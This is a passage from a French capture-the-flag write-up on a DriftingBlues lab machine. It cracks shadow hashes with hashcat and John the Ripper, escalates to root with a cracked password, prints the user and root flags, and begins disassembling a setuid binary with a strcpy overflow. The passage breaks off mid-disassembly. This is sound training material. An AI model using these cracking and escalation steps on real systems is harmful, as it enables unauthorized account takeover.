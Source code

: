 C'est le moment de lancer un [Penglab](https://github.com/mxrch/penglab) histoire de profiter des GPUs de Google pour casser le hash de l'utilisateur *clapton* :  

```plain
!hashcat -m 1800 /tmp/hash.txt /content/wordlists/rockyou.txt
```

Ça ne prend que quelques secondes avec hashcat + GPU qui retrouve le mot de passe *dragonsblood*.  

Way to root or not to root ?
----------------------------

Dans le home de cet utilisateur se trouvent trois fichiers :  

* Le flag user.txt (*96716B8151B1682C5285BC99DD4E95C2*)
* Une wordlist de 155464 lignes
* Un binaire setuid root nommé *waytoroot*

Le binaire n'est pas exploitable via l'utilisation de la wordlist. En effet il ne fait que copier via *strcpy()* l'argument reçu en ligne de commande, point barre.  

Je reviendrais plus tard sur ce binaire mais je me pose des questions : était-il destiné à être exploité ou s'agit-il seulement d'un troll ? Est-ce pour proposer deux fins différentes à ce CTF ? Le tout en sachant que le CTF est indiqué comme facile...  

Concernant la wordlist on peut en tout cas s'en servir pour casser le hash de l'utilisateur root lui aussi présent dans la backup du fichier *shadow*. Ça passe très bien avec *JohnTheRipper* :  

```plain
.:.yarak.:.      (root)
```

```plain
clapton@driftingblues:~$ su root 
Password:  
root@driftingblues:/home/clapton# cd 
root@driftingblues:~# ls 
root.txt 
root@driftingblues:~# cat root.txt  
E8E7040D825E1F345A617E0E6612444A
```

Hacker vaillant rien d'impossible
---------------------------------

Quand on désassemble la fonction *main()* du binaire on obtient ceci :  

```nasm
   0x565561a9 <+0>:     lea    0x4(%esp),%ecx
   0x565561ad <+4>:     and    $0xfffffff0,%esp
   0x565561b0 <+7>:     push   -0x4(%ecx)
   0x565561b3 <+10>:    push   %ebp
   0x565561b4 <+11>:    mov    %esp,%ebp
   0x565561b6 <+13>:    push   %ebx
   0x565561b7 <+14>:    push   %ecx
   0x565561b8 <+15>:    sub    $0x70,%esp
   0x565561bb <+18>:    call   0x565560b0 <__x86.get_pc_thunk.bx>
   0x565561c0 <+23>:    add    $0x2e40,%ebx
   0x565561c6 <+29>:    mov    %ecx,%eax
   0x565561c8 <+31>:    mov    0x4(%eax),%eax
   0x565561cb <+34>:    add    $0x4,%eax
   0x565561ce <+37>:    mov    (%eax),%eax
   0x565561d0 <+39>:    sub    $0x8,%esp
   0x565561d3 <+42>:    push   %eax
   0x565561d4 <+43>:    lea    -0x6c(%ebp),%eax
   0x565561d7 <+46>:    push   %eax
   0x565561d8 <+47>:    call   0x56556030 <strcpy@plt>
   0x565561dd <+52>:    add    $0x10,%esp
   0x565561e0 <+55>:    sub    $0xc,%esp
   0x565561e3 <+58>:    lea    -0x1ff8(%ebx),%eax
```